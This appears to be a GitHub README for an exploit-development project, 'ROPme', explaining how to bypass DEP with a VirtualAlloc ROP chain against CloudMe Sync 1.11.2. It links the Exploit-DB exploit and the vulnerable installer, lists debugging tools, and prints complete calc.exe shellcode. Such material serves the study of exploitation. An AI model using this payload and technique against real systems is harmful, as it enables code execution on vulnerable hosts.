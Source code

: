 # ROPme
Bypass Data Execution Prevention (DEP) Using VirtualAlloc in a ROP (Return-Oriented Programming) chains is a common technique to bypass DEP (Data Execution Prevention) by allocating executable memory in a process. The idea is to use a sequence of gadgets (short sequences of instructions ending in a return) to call VirtualAlloc or a similar function and allocate memory with PAGE_EXECUTE_READWRITE permissions. This allocated memory can then be used to execute shellcode

![image](https://github.com/user-attachments/assets/ba318158-d6c6-462b-94a8-83b803af2827)



## i start from [here] (https://www.exploit-db.com/exploits/46250)
## [CloudMe Sync 1.11.2] vulnerable version [https://www.exploit-db.com/apps/f0534b12cd51fefd44002862918801ab-CloudMe_1112.exe]
## --> i use :
### - [WINdbg](https://learn.microsoft.com/en-gb/windows-hardware/drivers/debugger)
### - [immunity Debugger] (https://debugger.immunityinc.com/)
### - IDA pro 
### - SublimeText 
### - IDLE from python 
### - [VirtualAlloc] function (memoryapi.h) (https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)
### - and finaly the calculator shellcode :
```sh

# Shellcode calc.exe
shellcode = ""
shellcode += "\xdb\xde\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x31\xba\xef"
shellcode += "\xc3\xbd\x59\x83\xc0\x04\x31\x50\x14\x03\x50\xfb\x21"
shellcode += "\x48\xa5\xeb\x24\xb3\x56\xeb\x48\x3d\xb3\xda\x48\x59"
shellcode += "\xb7\x4c\x79\x29\x95\x60\xf2\x7f\x0e\xf3\x76\xa8\x21"
shellcode += "\xb4\x3d\x8e\x0c\x45\x6d\xf2\x0f\xc5\x6c\x27\xf0\xf4"
shellcode += "\xbe\x3a\xf1\x31\xa2\xb7\xa3\xea\xa8\x6a\x54\x9f\xe5"
shellcode += "\xb6\xdf\xd3\xe8\xbe\x3c\xa3\x0b\xee\x92\xb8\x55\x30"
shellcode += "\x14\x6d\xee\x79\x0e\x72\xcb\x30\xa5\x40\xa7\xc2\x6f"
shellcode += "\x99\x48\x68\x4e\x16\xbb\x70\x96\x90\x24\x07\xee\xe3"
shellcode += "\xd9\x10\x35\x9e\x05\x94\xae\x38\xcd\x0e\x0b\xb9\x02"
shellcode += "\xc8\xd8\xb5\xef\x9e\x87\xd9\xee\x73\xbc\xe5\x7b\x72"
shellcode += "\x13\x6c\x3f\x51\xb7\x35\x9b\xf8\xee\x93\x4a\x04\xf0"
shellcode += "\x7c\x32\xa0\x7a\x90\x27\xd9\x20\xfe\xb6\x6f\x5f\x4c"
shellcode += "\xb8\x6f\x60\xe0\xd1\x5e\xeb\x6f\xa5\x5e\x3e\xd4\x59"
shellcode += "\x15\x63\x7c\xf2\xf0\xf1\x3d\x9f\x02\x2c\x01\xa6\x80"
shellcode += "\xc5\xf9\x5d\x98\xaf\xfc\x1a\x1e\x43\x8c\x33\xcb\x63"
shellcode += "\x23\x33\xde\x07\xa2\xa7\x82\xe9\x41\x40\x20\xf6"
```
